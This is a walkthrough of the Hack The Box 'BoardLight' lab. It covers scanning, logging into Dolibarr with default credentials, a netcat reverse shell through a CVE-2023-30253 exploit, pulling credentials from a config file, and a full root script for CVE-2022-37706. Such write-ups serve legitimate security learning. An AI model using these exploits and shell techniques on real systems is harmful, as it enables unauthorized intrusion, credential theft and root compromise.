



# BoardLight      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here are the descriptions of the open ports shown in the screenshots:

### **22/tcp (SSH)**
This port is used by `OpenSSH`, version 8.2p1 Ubuntu 4ubuntu0.11, running on an Ubuntu Linux system. The SSH service supports protocol 2.0 and provides secure remote access. It uses encryption algorithms for secure communication, with host keys available in `RSA`, `ECDSA`, and `ED25519` formats, ensuring secure connections.

### **80/tcp (HTTP)**
This port is used by the `Apache` web server, version 2.4.41, running on an Ubuntu system. The service handles HTTP requests and supports methods such as `GET`, `HEAD`, `POST`, and `OPTIONS`. The server's response header confirms that it uses `Apache/2.4.41`. The HTTP title indicates that the site currently doesn't have a title, and the content type is `text/html` with `charset=UTF-8`.

After pasting `http://{target ip}/` into the browser, we can see the website.


Site looks good but its functionality is poor.

At the footer we can see e-mail with **board.htb** domain. 


Let's add it into `/etc/hosts` file.

To do this type:

```
sudo nano /etc/hosts
```

and then paste:

```
{target ip} board.htb
```



At the very end, then `save` it. You can do that by `Ctrl + X`. Then press `Y`. Confirm with `Enter`.

### Ffuf

`Gobuster` in `dir` mode did not find anything useful.

Let's look for some `subdomains`, to do it let's use **Ffuf**:

```
ffuf -u http://board.htb -H "Host:FUZZ.board.htb" -w {path to the dictionary you want to use} -fc 302 -fs 15949
```

`-fc 302` - This flag filters out and hides results with an HTTP status code 302.

`-fs 15949` - This flag filters out and hides results based on the response size. Specifically, it excludes any responses with a size of 15,949 bytes from the output. This is useful for ignoring wildcard responses or other irrelevant data. I used it to have clean, nice output without false positives.


We have one `subdomain` - **crm**.

Let's add it to the `/etc/hosts` file.



Now type `http://crm.board.htb` into your browser.


We have a login panel.

**Dolibarr 17.0.0** is an open-source ERP and CRM software (under GNU/GPL licensing) designed for small and medium-sized businesses, providing tools for management, billing, and customer relations.

I tried to login by:

```
admin:admin
```

credentials.


and it worked.


Unfortunately we cannot do much.

Time for search, I found interesting website and probably nice **exploit**.

```
https://www.swascan.com/security-advisory-dolibarr-17-0-0/
```

and exploit:

```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```

### Exploitation(Reverse shell + Netcat)

Let's use that exploit.

Author did a great job and described everything perfect in `readme` so you know right away what needs to be done.


First of all, let's `clone` it.

```
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
```

```
cd Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```


Now, let's setup **Netcat**.

Type in new tab:

```
nc -lvnp {port of your choice}
```


Time to comeback to `exploit` tab.

Type:

```
python3 exploit.py http://crm.board.htb admin admin {your tun0 ip} {port you have chosen}
```


In the `Netcat` tab you should have a `shell`.


Nice. You can use `Ctrl + C` combination in your exploit tab if you want.

### System search

We are looking for some `config` file.

I found this article:

```
https://wiki.dolibarr.org/index.php?title=Configuration_file
```


Let's search for **conf.php**.

```
find /var/www -type f -iname "conf.php"
```

It's there in the `/var/www/html/crm.board.htb/htdocs/conf/` path.

```
cd /var/www/html/crm.board.htb/htdocs/conf
```


Time to see what's inside.


We have some credentials.

Since everything I've done looks very similar to the steps from my **PermX** writeup. I wanted to find a real user in the system and then attempted to authenticate via **SSH** with password from **conf.php**.

To list real users I pasted:

```
cat /etc/passwd | grep -i sh 
```


`larissa` looks like our target.

### SSH

I just pasted:

```
ssh larissa@{target ip}
```

and provided password form **conf.php** - `serverfun2$2023!!`.


We are in.

So **SSH** credentials are:

```
larissa:serverfun2$2023!!
```

### Get the user flag

The `user` flag is in the `/home/larissa` path.


## Privilege Escalation

**larissa** does not have any permissions to run `sudo` on localhost.

This is what my search looked like:

```
id
```

```
cat /etc/group | grep adm
```

```
find / -group adm -type f -perm -040 2>/dev/null
```

*This command searches for files that belong to the `adm` group and have read permissions for that group across the entire file system, ignoring any permission errors.*


Nothing interesting.

So I decided to paste:

```
find / -perm -4000 -type f 2>/dev/null
```

*The command searches for files with the SUID bit set across the entire file system.*

**SUID (Set User ID)** is a special file permission in Unix/Linux systems that allows a file to be executed with the privileges of the file's owner, rather than the user who is running the file. This means that if a binary with **SUID** is owned by the `root` user, it will execute with `root` privileges, even if a `non-root` user runs it.


There are some `Enlightenment` files.

The presence of these files indicates that the `Enlightenment` desktop environment is installed, and they are part of its utilities and modules. These **SUID** binaries allow `Enlightenment` to perform certain system-level tasks with elevated privileges.

I found that article:

```
https://www.exploit-db.com/exploits/51180
```

It looks useful but let's check the `Enlightenment` version on `target system`:

```
enlightenment -version
```

it turned out that it works on **version 0.23.1**. We can give it a try.


I also found this exploit on its author's `github`:

```
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
```

Shoutout to **MaherAzzouzi**.

I will use it. Script looks like this:

```
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

So I created a file named script.sh.

```
touch script.sh
```

And I wrote the above script in it.

```
nano script.sh
```


Now we will `set permissions` to the script.

```
chmod +x script.sh 
```

Time to execute it.

Type:

```
./script.sh
```


We are **root**.

### Get the root flag

`Root` flag is in the `/root` directory.



GGs.

### Paste the flags

